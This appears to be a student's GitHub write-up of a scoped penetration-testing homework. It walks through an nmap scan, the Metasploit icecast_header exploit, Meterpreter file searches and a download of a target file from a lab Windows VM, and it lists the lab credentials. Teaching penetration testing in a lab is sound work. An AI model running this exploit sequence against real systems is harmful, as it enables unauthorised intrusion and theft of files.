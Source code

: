 # Week-17-Homework-Penetration-Testing-1

## Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
The CEO claims to have passwords that are long and complex and therefore unhackable.

You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

The deliverable for this engagement will be in the form of a report labeled Report.docx.

## Setup

Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.

Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
Then click Start Server.

## Reminders

A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

## Scope

The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

Since you've already been provided access to the network, OSINT won't be necessary.

## Lab Environment
For this week's homework, please use the following VM setup:

Attacking machine: Kali Linux root:toor

Target machine: DVW10 IEUser:Passw0rd!

NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to begin the activity.

## Deliverable

Once you complete this assignment, submit your findings in the following document:

Report.docx

## Instructions

### You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

**Perform a service and version scan using Nmap to determine which services are up and running:**

**Run the Nmap command that performs a service and version scan against the target.**

Answer: `nmap -sV 192.168.0.20`

![Nmap Scan](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/nmap%20scan.png)

**From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:**

**Run the SearchSploit commands to show available Icecast exploits.**

Answer: `searchsploit icecast`

![Searchsploit Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/searchsploit%20icecast.PNG)

**Now that we know which exploits are available to us, let's start Metasploit:**

**Run the command that starts Metasploit:**

Answer: `msfconsole`

![msfconsole](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/msfconsole.PNG)

**Search for the Icecast module and load it for use.**

**Run the command to search for the Icecast module:**

Answer: `search icecast`

![Search Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20icecast.PNG)

**Run the command to use the Icecast module:**
**Note: Instead of copying the entire path to the module, you can use the number in front of it.**

Answer: `use exploit/windows/http/icecast_header`

We can also use the number in front of the exploit from the list provided from the search - `use 0`

![use Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/use%20icecast.PNG)

**Set the RHOST to the target machine.**

**Run the command that sets the RHOST:**

Answer: `set RHOST 192.168.0.20`

![Set RHOST 1](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%201.PNG)

![Set RHOST 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%202.PNG)

**Run the Icecast exploit.**

**Run the command that runs the Icecast exploit.**

Answer: `exploit` (while in module)

![Exploit command](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/exploit.PNG)

**Run the command that performs a search for the secretfile.txt on the target.**

Answer: `search -f *secretfile*.txt` 

This command will place a wildcard in front of and behind 'secretfile' in 'secretfile.txt', meaning the search will look for anything that contains 'secretfile.txt' as well as any other text files that have anything before or after 'secretfile.txt'.

![search secretfile](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20secret.PNG)

**You should now have a Meterpreter session open.**

**Run the command to performs a search for the recipe.txt on the target:**

Answer: `search -f *recipe*.txt`

![search recipe](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20recipe.PNG)

**Bonus: Run the command that exfiltrates the recipe.txt file:**

Answer: `download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'`

![Download recipe](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/download%20Drinks.recipe.png)

**You can also use Meterpreter's local exploit suggester to find possible exploits.**

**Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.**

### Bonus
**A. Run a Meterpreter post script that enumerates all logged on users.**

Answer:

**B. Open a Meterpreter shell.**

Answer:

**C. Run the command that displays the target's computer system information:**

Answer:
